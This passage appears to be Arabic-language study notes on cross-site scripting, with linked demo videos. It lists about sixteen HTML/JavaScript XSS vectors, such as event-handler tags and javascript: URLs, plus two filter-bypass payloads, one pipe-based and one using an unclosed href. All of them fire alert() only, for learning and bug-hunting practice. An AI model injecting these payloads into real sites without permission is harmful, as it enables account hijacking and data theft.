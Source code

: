 ![2025-05-27 04-48-31.mkv](attachments/2025-05-27 04-48-31.mkv)
#### معظم ال tags اللي ممكن تستخدمها :
```html
<img src=x oNerror=alert(1)>
<svg><script>alert(1)</script></svg>
<xss onmouseover=alert(1)>
<a href="javascript:alert(1)">Click</a>
<svg onload=alert('XSS')>
<div onclick=alert('XSS')>اضغط هنا</div>
<button onclick=alert(1)>Click</button>
<input onfocus=alert(1) autofocus>
<marquee onstart=alert(1)>
<video onerror=alert(1)>
<body onload=alert(1)>
<math href="javascript:alert(1)">
<svg onload=alert(1)>
<iframe src="javascript:alert(1)"></iframe>
<script>alert(1)</script>
    <details open ontoggle=alert('XSS')>

```





## 8️⃣ فكره استخدام ال | في ال xss
{  #XSS_other_idea / #XSS_with_out_angle_bracket  }
#### الشرح:
![2025-06-05 16-22-24.mkv](attachments/2025-06-05 16-22-24.mkv)


#### البايلود اللي في الشرح 
```bash
'#'|alert(1)//
```



-----

## 8️⃣ لو الموقع بيحطلك علامه ال " في الاخر  بعد م تحط النص ابقي استخد البايلود التالي 
{ #ideas_for_url  }
#### الشرح  :

![2025-06-05 23-14-09.mkv](attachments/2025-06-05 23-14-09.mkv)

#### البايلود اللي في الشرح 
```html
<a href="http://onerror1=alert(1)//
```
